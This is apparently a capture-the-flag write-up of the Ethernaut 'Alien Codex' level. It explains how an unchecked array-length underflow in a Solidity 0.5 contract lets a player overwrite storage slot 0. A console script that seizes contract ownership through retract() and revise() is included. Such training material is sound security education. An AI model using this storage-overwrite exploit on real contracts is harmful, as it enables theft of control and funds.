 # Alien Codex

The goal of this level is to claim ownership over the contract `AlienCodex`. The contract does not contain an `owner` variable as it comes from the inherited `Ownable` contract. The owner is defined at slot 0 of `Ownable` in `Ownable.sol`. Another important thing to note is that the compiler version is set to `^0.5.0`, which does not contain checked arithmetic by default. This means that the `retract()` function, which decrements the `codex` bytes32 array's length. We can abuse this to take over the complete contract storage slot.

First, we must call the `makeContact()` function in order to set `contact` to `true`, which allows us to pass the `contacted()` modifier. Then we call the `retract()` function. This decrements the `codex.length` by 1, which is an issue since the default value of the `bytes32` array is 0. This therefore underflows changing the `codex.length` to 2^256, or the total storage capacity of the contract. Now, we can access any variable stored within this contract. We can then call the `revise()` function at slot 0 of the array and update the value of `_owner` with our own address.

Luckily, this can all be done within the console:

First we calculate the slot location of the owner: `slotLoc = web3.utils.keccak256(web3.eth.abi.encodeParameters(["uint256"], [1]));`. Then to calculate the index,we suptract the location from 2^256, our new array length due to our `retract()` call. To convert our address to `bytes32` we can append our address to 24 repeating zeros: `addr = "0x" + "0".repeat(24) + player.slice(2);` 

To claim ownership over the contract simply pass in the index and our address to a `revise()` function call. In our console, we write the following:
```
await contract.makeContact();
await contract.retract();

// Determining the slot location
slotLoc = web3.utils.keccak256(web3.eth.abi.encodeParameters(["uint256"], [1]));

index = BigInt(2 ** 256) - BigInt(slotLoc);

addr = "0x" + "0".repeat(24) + player.slice(2);
contract.revise(index, addr);

// Verify we are the new owner
await contract.owner() == player;
```
